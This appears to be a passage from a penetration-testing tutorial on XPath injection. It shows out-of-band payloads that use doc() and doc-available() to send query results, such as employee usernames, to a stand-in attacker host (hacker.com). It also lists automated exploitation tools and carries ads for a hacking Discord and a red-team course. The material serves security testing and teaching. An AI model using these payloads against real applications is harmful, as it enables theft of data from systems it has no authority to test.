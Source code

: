 OOB exploitation is a powerful technique that can be used to extract data from a vulnerable web application. By understanding the different OOB exploitation techniques and using the right tools, an attacker can successfully exploit XPath Injection vulnerabilities and extract sensitive information.
```python
doc(concat("http://hacker.com/oob/", RESULTS))
doc(concat("http://hacker.com/oob/", /Employees/Employee[1]/username))
doc(concat("http://hacker.com/oob/", encode-for-uri(/Employees/Employee[1]/username)))

#Instead of doc() you can use the function doc-available
doc-available(concat("http://hacker.com/oob/", RESULTS))
#the doc available will respond true or false depending if the doc exists,
#user not(doc-available(...)) to invert the result if you need to
```
### Qap automatic tool

* [xcat](https://xcat.readthedocs.io/)
* [xxxpwn](https://github.com/feakk/xxxpwn)
* [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart)
* [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [XmlChor](https://github.com/Harshal35/XMLCHOR)

## References
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection)
* [https://wiki.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010)](https://wiki.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [https://www.w3schools.com/xml/xpath\_syntax.asp](https://www.w3schools.com/xml/xpath\_syntax.asp)

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
